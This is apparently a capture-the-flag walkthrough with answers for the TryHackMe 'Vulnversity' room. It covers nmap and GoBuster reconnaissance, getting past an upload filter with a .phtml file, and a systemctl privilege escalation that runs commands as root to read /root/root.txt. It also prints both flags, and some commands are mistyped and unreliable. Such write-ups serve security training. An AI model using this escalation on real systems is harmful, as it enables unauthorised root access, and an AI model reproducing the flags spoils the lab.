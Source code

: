 #Vulnversity

`export IP=10.10.212.126`

##Reconnaissance 
nmap flag			Description
`-sV`				Attempts to determine the version of the services running
`-p <x> or -p-`		Port scan for port <x> or scan all ports
`-Pn`				Disable host discovery and just scan for open ports
`-A`				Enables OS and version detection, executes in-build scripts for further enumeration 
`-sC`				Scan with the default nmap scripts
`-v`				Verbose mode
`-sU`				UDP port scan
`-sS`				TCP SYN port scan

###nmap scan
`nmap -sC -sV -oN nmap/initial $IP -v`

2) 	
Scan the box, how many ports are open?
`6`

3) 	
What version of the squid proxy is running on the machine?
`3.5.12`

4) 	
How many ports will nmap scan if the flag -p-400 was used?
`400`

5) 	
Using the nmap flag -n what will it not resolve?
`DNS`

6) 	
What is the most likely operating system this machine is running?
`Ubuntu`

7) 	
What port is the web server running on?
`3333`

8)
`nmap -p- -sC -sV -oN nmap/fullscan $IP -v`

##GoBuster

find many wordlists under /usr/share/wordlists.
Now lets run GoBuster with a wordlist: `gobuster dir -u http://<ip>:3333 -w <word list location>`

GoBuster flag			Description
`-e`					Print the full URLs in your console
`-u`					The target URL
`-w`					Path to your wordlist
`-U and -P`				Username and Password for Basic Auth
`-p <x>`				Proxy to use for requests
`-c <http cookies>`		Specify a cookie for simulating your auth

`gobuster dir -u http://$IP:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt > gobuster/sitescan`
 	

What is the directory that has an upload form page?
`/internal/`

##Compromise the webserver 
1)
Try upload a few file types to the server, what common extension seems to be blocked?
`php`

3)
what extension is allowed?
![Burp Reuslts](https://github.com/tigercub-co/TryHackMe/blob/master/Vulnversity/images/Burp_Output.png)
`.phtml`

5)
What is the name of the user who manages the webserver? `ps-aux`
`bill`

6)
What is the user flag?
`8bd7992fbe8a6ad22a63361004cfcedb`

##Privilege Escalation
`find / -pem 400 2>dev/null | grep -v "permission denied"`

1)
What file stands out?
`/bin/systemctl`

searching GTFO bins gtfobins.github.io for systemctl errors you get the following

2) 	
Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?
Become root and get the last flag (/root/root.txt)

`
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
`

`
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
`

`a58ff8579f0a9270368d33a9966c7fd5`
